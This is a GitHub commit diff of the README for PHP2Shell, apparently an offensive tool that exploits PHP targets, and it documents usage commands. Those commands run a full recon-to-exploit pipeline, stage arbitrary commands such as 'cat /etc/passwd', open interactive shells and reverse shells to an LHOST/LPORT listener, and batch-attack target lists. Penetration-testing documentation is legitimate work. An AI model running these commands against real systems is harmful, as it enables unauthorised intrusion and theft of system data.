

Before and after one commit to umair-aziz025/PHP2Shell, a Markdown page: README.md, the part around one of its changes. GitHub-like rendering; blank space fills up the shorter version.

Commit message:
docs: modernize README with automated staging, reverse shell auto-prompt, and Assetnote references

````diff
--- a/README.md
+++ b/README.md
@@ -106,9 +111,13 @@ pip install -r requirements.txt
 
 The primary script ([`php2shell.py`](php2shell.py)) handles all tasks in one single file:
 
-### 🚀 1. Full Assessment (Recon → Passive → Probes → WAF; no exploit)
+### 🚀 1. Full Pipeline Execution (Recon → Passive → Probes → WAF → Exploit)
 ```bash
-python php2shell.py http://127.0.0.1:8899/ --all -v
+# Run the complete end-to-end pipeline across all 5 stages
+python php2shell.py http://target.lab:8088/ --all -v
+
+# Run non-destructive assessment only (Recon, Passive, Active Probes, WAF)
+python php2shell.py http://target.lab:8088/ --recon --active --waf -v
 ```
 
 ### 🔍 2. Reconnaissance with Custom Wordlist or Remote SecLists
@@ -120,13 +129,21 @@ python php2shell.py http://target.lab:8088/ --recon -w my_wordlist.txt -v
 python php2shell.py http://target.lab:8088/ --recon --remote-wordlist -v
 ```
 
-### 💻 3. Auto-Exploit and Drop Into Live Interactive Shell Console
+### 💻 3. Auto-Exploit with Automatic Payload Staging & Interactive Shell
 ```bash
+# Drops into persistent interactive shell console upon compromise
 python php2shell.py http://target.lab:8088/ --all --shell
+
+# Arbitrary length commands are automatically staged via multipart upload
+python php2shell.py http://target.lab:8088/ --exploit --cmd "whoami; id; uname -a; cat /etc/passwd"
 ```
 
-### 📡 4. Built-in Interactive Reverse Shell Listener
+### 📡 4. Built-in Interactive Reverse Shell with Auto-IP Prompt
 ```bash
+# Automatically detects local network IP and prompts for LHOST/LPORT confirmation
+python php2shell.py http://target.lab:8088/ --all --reverse
+
+# Or supply explicit listener parameters
 python php2shell.py http://target.lab:8088/ --all --lhost 10.10.14.5 --lport 4444
 ```
 
@@ -136,13 +153,13 @@ python php2shell.py http://target.lab:8088/index.php \
   --exploit \
   --exploit-method binary \
   --exploit-profile bookworm \
-  --cmd "id>/tmp/pwn" \
+  --cmd "id; uname -a" \
   --proof-file /tmp/pwn
 ```
 
 ### 📊 6. Multi-Target Batch Audit with Report Export
 ```bash
-python php2shell.py -f targets.txt --threads 20 --recon --active --waf -o audit_report
+python php2shell.py -f targets.txt --recon --active --waf -o audit_report
 ```
 *Generates both `audit_report.json` and `audit_report.md`.*
 
````
Also changed, not shown: other parts of README.md (+18 -18 lines).
